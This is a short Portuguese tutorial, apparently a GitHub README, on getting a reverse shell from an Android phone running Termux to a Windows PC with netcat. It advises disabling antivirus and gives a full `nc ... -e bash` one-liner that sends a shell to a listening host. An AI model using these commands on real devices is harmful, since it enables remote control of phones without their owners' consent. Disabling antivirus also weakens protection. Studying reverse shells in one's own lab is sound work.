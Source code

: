 =========================================
📱🔒 Tutorial Reverse Shell Termux 2025 🔑
=========================================

### ⚙️ Passos a seguir:

1️⃣ **Desative o antivírus** (no PC e no celular)  
2️⃣ **Instale os pacotes no Termux:** `nano`, `which`, `nc`, etc.  
3️⃣ **Instale o Netcat (NC) no PC**  

🔽 **Baixar o Netcat para Windows:**  
🔗 https://github.com/diegocr/netcat/blob/master/nc.exe

🖥️ **Imagem do PC:**  
![Imagem do PC](https://github.com/user-attachments/assets/0e478801-485a-4bef-80fe-c063411f6493)

📱 **Imagem do celular:**  
![Imagem do celular](https://github.com/user-attachments/assets/594827ce-91ca-4867-9c88-a112ea16dfa6)

### 💻 Comando usado no Termux:

```bash
nc 192.168.100.168 4444 -e /data/data/com.termux/files/usr/bin/bash
```

📝 *Substitua o caminho acima pelo caminho da bash no seu Termux se for diferente.*

---

### 🧠 Observação:
> Essa é a forma **mais simples** de obter uma shell reversa em um telefone Android via Termux.

🔁 **Shell reversa obtida:**  
![Shell reversa](https://github.com/user-attachments/assets/fc387a56-0d8c-4b98-9e4d-c87622d45b73)
